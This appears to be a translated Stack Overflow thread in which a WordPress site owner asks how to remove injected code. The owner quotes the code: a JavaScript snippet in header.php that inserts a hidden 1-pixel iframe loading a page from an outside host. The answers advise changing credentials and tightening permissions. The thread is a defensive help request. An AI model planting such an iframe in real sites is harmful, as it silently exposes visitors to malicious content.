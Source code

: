 > 赞同：1
> 
> 时间：2012-12-12T17:26:24.173

你为什么不建立一个代理网络服务？您的客户端应用程序发送请求，您的网络服务获取它们并在您的数据库上安全地执行它们。

# wordpress - Wordpress hack 注入 javascript / iframe

> ID：13845065
> 
> 赞同：1
> 
> 时间：2012-12-12T17:14:26.173
> 
> 标签：wordpress, virus

我的（Wordpress）网站似乎被黑了，代码被添加到主 index.php 文件、主题 index.php 文件和主题 header.php 文件中。

这部分来自 header.php

```
#f524d6#
<script type=\"text/javascript\" language=\"javascript\" >
(function () {    var kilun = document.createElement('iframe');    kilun.src = 'http://hosting3081247.az.pl/cgi-bin/counter.php';    kilun.style.position = 'absolute';    kilun.style.border = '0';    kilun.style.height = '1px';    kilun.style.width = '1px';    kilun.style.left = '1px';    kilun.style.top = '1px';    if (!document.getElementById('kilun')) {        document.write('<div id=\'kilun\'></div>');        document.getElementById('kilun').appendChild(kilun);    }})();</script>";
#/f524d6# 
```

有人可以告诉我如何删除它吗？它在删除代码行后返回。

* * *

## 回答 #1

> 赞同：1
> 
> 时间：2012-12-13T11:28:44.363

如果你在普通的 html/php 页面上找到它——不仅在 wordpress 中——那么它可能是一个解析服务器上所有文件的脚本（即不是 wp hack），在这种情况下最好更改服务器的用户名和密码（以及至于wordpress）：ftp，shell等。

* * *

## 回答 #2

> 赞同：-1
> 
> 时间：2012-12-13T11:26:48.237

*   以最低权限更改您的文件夹和文件。
*   保护您的`.htaccess`.
*   检查文件夹所有权。
*   更改所有密码并创建更难的密码。
